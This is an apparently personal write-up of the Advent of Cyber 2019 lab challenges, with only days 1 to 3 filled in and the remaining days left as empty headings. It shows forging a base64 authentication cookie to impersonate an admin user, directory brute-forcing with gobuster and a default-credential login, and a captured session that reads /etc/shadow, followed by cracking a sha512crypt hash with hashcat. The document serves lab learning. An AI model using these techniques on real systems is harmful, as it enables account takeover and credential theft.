

# Advent of Cyber - Christmas 2019 Writeup

# Table of Contents
1. [Day 1 - Inventory Management](#day1)
2. [Day 2 - Artic Forum](#day2)
3. [Day 3 - Evil Elf](#day3)
4. [Day 4 - Training](#day4)
5. [Day 5 - Ho-Ho-Hosint](#day5)
6. [Day 6 - Data Elf-iltration](#day6)
7. [Day 7 - Skilling up](#day7)
8. [Day 8 - SUID Shenanigans](#day8)
9. [Day 9 - Requests](#day9)
10. [Day 10 - Metasploit-a-ho-ho-ho](#day10)
11. [Day 11 - Elf Applications](#day11)
12. [Day 12 - Elfcryption](#day12)
13. [Day 13 - Accumulate](#day13)
14. [Day 14 - Unknown Storage](#day14)
15. [Day 15 - LFI](#day15)
16. [Day 16 - File Confusion](#day16)
17. [Day 17 - Hydra-ha-ha-haa](#day17)
18. [Day 18 - ELF JS](#day18)
19. [Day 19 - Commands](#day19)
20. [Day 20 - Cronjob Privilege Escalation](#day20)
21. [Day 21 - Reverse Elf-ineering](#day21)
22. [Day 22 - If Santa, Then Christmas](#day22)
23. [Day 23 - LapLANd(SQL Injection)](#day23)
24. [Day 24 - Elf Stalk](#day24)

## Day 1 - Inventory Management <a name="day1"></a>

The first challenge is related to Web Hacking. Acording to the suplemental material cookies are generated every time an user perform an action, sent to the server and then checked if the user is authorized to do a certain action. Attackers can take advantange of cookies when these have not enough randomness. Cookie fixation or predictable cookie values are the main causes of taking control of user accounts. 

In order to access you need to navigate to the URL (http://<your-ip-address>:3000), here you can see a login page that requires for an user and password. However when you inspect in the Storage tab there is no cookie, this occurs because there is no user logged in yet. 
  


Let's create an account and login. In this example I have used the user **test** now we can see a cookie of value `dGV*************IXNz` and also the **name** of the cookie, this parameter is required to answer question 1 of Day 1 task. 

  

In the lecture also mention that normally cookies are base64 encoded. So, we can try to decode the cookie using the following command. 

```
root@kali:/home/kali# echo "dGV*************IXNz" | base64 -d
root@kali:/home/kali# testv4******!ss
```

After decoding the flag we can notice a pattern looks like the decode cookie has the form <user><fixed-value> so what would happen if we modify the user test to admin resulting in admin<fixed-value>. However remember that we must encode again the decoded value to mimic the previous cookie. Once we have this new value we replaced the previous value of the cookie with the new one. **Note:** The fixed part uses the special character `!` so to avoid issues in bash we need to escape this character with `\` before base64 encoding
  
```
root@kali:/home/kali# adminv4*******ss
root@kali:/home/kali# echo -n mcinventoryv4******\!ss | base64
root@kali:/home/kali# bWNpb*********************Fzcw==
```
As a result of changing the cookie we got a new page with /admin directory from the user mcinventory. Here we can see the list of presents approved or rejected. The answer of the question 3 is shown in the next image.


### 1. What is the name of the cookie used for authentication?

```
aut***
```

### 2. If you decode the cookie, what is the value of the fixed part of the cookie?**

```
v4*******ss
```

### 3. After accessing his account, what did the user mcinventory request?**

```
fi****ll
```

## Day 2 - Artic Forum <a name="day2"></a>


El reto de hoy consiste en analizar un foro en donde aprenderemos algo acerca de bruteforcing directories para encontrar directorios conocidos dentro de un sitio web, para este proposito se utilizara gobuster. Esta herramienta permite hacer fuzzing de directorios mediante un ataque con diccionario, mostrar las coincidencias y muestra el status indicando si son accesibles o no por el usuario final.

```
root@kali:/home/kali# gobuster dir -u http://10.10.83.219:3000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.83.219:3000/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/13 11:34:36 Starting gobuster
===============================================================
/home (Status: 302)
/login (Status: 200)
/admin (Status: 302)
/Home (Status: 302)
/assets (Status: 301)
/css (Status: 301)
/Login (Status: 200)
/js (Status: 301)
/logout (Status: 302)
/sys***** (Status: 200)
```

Al finalizar de ejecutar la herramienta descubrimos el directorio sys***** que es la respuesta a la primera pregunta de este dia. Una vez que ingresamos aparece una ventana de login de administracion, sin embargo no conocemos las credenciales. Indagando mayor informacion en el codigo fuente de esta pagina encontramos un comentario que parece de utilidad indicando que el sitio ha sido creado basandose en un repositorio en Github


Realizando la busqueda en Google encontramos que existe el repositorio Artic Digital Design y que ademas tiene credenciales por defecto.


Ingresamos con estas credenciales en el panel de administracion y logramos ingresar satisfactoriamente. La contrasena utilizada es la respuesta de la segunda pregunta.



Si revisamos un poco el contenido de la pagina vemos que mas abajo hay una entrada de un foro que muestra la tercera respuesta del reto del dia de hoy.

### 1. What is the path of the hidden page?

```
/sys*****
```

### 2. What is the password you found?

```
de*******ss
```

### 3. What do you have to take to the 'partay'?

```
E****g
```

## Day 3 - Evil Elf <a name="day3"></a>

```
# sudo tshark -r 'Evil Elf.pcap' -Y "frame.number==998"
998   1.867761 10.10.186.136 → 63.**.**.195 TCP 74 39390 → 23 [SYN] Seq=0 Win=26883 Len=0 MSS=8961 SACK_PERM=1 TSval=2930534971 TSecr=0 WS=128
```

https://osqa-ask.wireshark.org/questions/14811/follow-tcp-stream-with-tshark-still-can-not-in-batch-mode


```
for stream in `tshark -r 'Evil Elf.pcap' -T fields -e tcp.stream -Y "frame.number==998" | sort -n -u`; do echo Stream: $stream; tshark -r 'Evil Elf.pcap' -q -z follow,tcp,ascii,$stream; done

Follow: tcp,ascii
Filter: tcp.stream eq 1
Node 0: 10.10.186.136:39390
Node 1: 63.32.89.195:23
32
echo '***' > christmas_list.txt

16
cat /etc/shadow

        956
root:*:18171:0:99999:7:::
daemon:*:18171:0:99999:7:::
bin:*:18171:0:99999:7:::
sys:*:18171:0:99999:7:::
sync:*:18171:0:99999:7:::
games:*:18171:0:99999:7:::
man:*:18171:0:99999:7:::
lp:*:18171:0:99999:7:::
mail:*:18171:0:99999:7:::
news:*:18171:0:99999:7:::
uucp:*:18171:0:99999:7:::
proxy:*:18171:0:99999:7:::
www-data:*:18171:0:99999:7:::
backup:*:18171:0:99999:7:::
list:*:18171:0:99999:7:::
irc:*:18171:0:99999:7:::
gnats:*:18171:0:99999:7:::
nobody:*:18171:0:99999:7:::
systemd-network:*:18171:0:99999:7:::
systemd-resolve:*:18171:0:99999:7:::
syslog:*:18171:0:99999:7:::
messagebus:*:18171:0:99999:7:::
_apt:*:18171:0:99999:7:::
lxd:*:18171:0:99999:7:::
uuidd:*:18171:0:99999:7:::
dnsmasq:*:18171:0:99999:7:::
landscape:*:18171:0:99999:7:::
sshd:*:18171:0:99999:7:::
pollinate:*:18171:0:99999:7:::
ubuntu:!:18232:0:99999:7:::
buddy:$6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1:18233:0:99999:7:::
```

https://hashcat.net/wiki/doku.php?id=example_hashes   encontramos el patron correspondiente a $6$ y este corresponde a sha512crypt en hashcat con la opcion -m 1800

```
# hashcat -m 1800 task3.txt /usr/share/wordlists/rockyou.txt --show
$6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1:r*****w
```

## Day 4 - Training <a name="day4"></a>

## Day 5 - Ho-Ho-Hosint <a name="day5"></a>

## Day 6 - Data Elf-iltration <a name="day6"></a>

## Day 7 - Skilling up <a name="day7"></a>

## Day 8 - SUID Shenanigans <a name="day8"></a>

## Day 9 - Requests <a name="day9"></a>

## Day 10 - Metasploit-a-ho-ho-ho <a name="day10"></a>

## Day 11 - Elf Applications <a name="day11"></a>

## Day 12 - Elfcryption <a name="day12"></a>

## Day 13 - Accumulate <a name="day13"></a>

## Day 14 - Unknown Storage <a name="day14"></a>

## Day 15 - LFI <a name="day15"></a>

## Day 16 - File Confusion <a name="day16"></a>

## Day 17 - Hydra-ha-ha-haa <a name="day17"></a>

## Day 18 - ELF JS <a name="day18"></a>

## Day 19 - Commands <a name="day19"></a>

## Day 20 - Cronjob Privilege Escalation <a name="day20"></a>

## Day 21 - Reverse Elf-ineering <a name="day21"></a> 

## Day 22 - If Santa, Then Christmas <a name="day22"></a>

## Day 23 - LapLANd(SQL Injection) <a name="day23"></a>

## Day 24 - Elf Stalk <a name="day24"></a>
